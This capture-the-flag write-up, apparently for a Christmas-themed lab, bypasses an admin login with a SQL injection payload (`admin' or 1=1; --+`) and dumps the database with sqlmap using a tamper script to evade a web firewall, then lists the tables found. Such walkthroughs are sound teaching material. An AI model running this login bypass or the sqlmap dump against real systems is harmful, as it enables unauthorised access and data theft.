

## **Website**
>	- Visited `http://ip:8000` to view the website.
>	- From the given hint, the panel path was found in `/santapanel`.
>	- Used `admin' or 1=1; --+` in the username field to bypass the login.
## **Burpsuite & sqlmap**
>	- Used Burpsuite to intercept the search request and save it to be used with `sqlmap`.
```
sqlmap -r search-request --tamper=space2comment --dbms sqlite --dump-all
```
>		- `-r` to specify the saved request file.
>		- `--tamper=space2comment` given to bypass the WAF.
>		- `--dmbs` to specify the database type.
>		- `--dump-all` to dump all the database entries.
>	- Table `users` found.
>	- Table `hidden_table` found.
>	- Table `sequels` found.
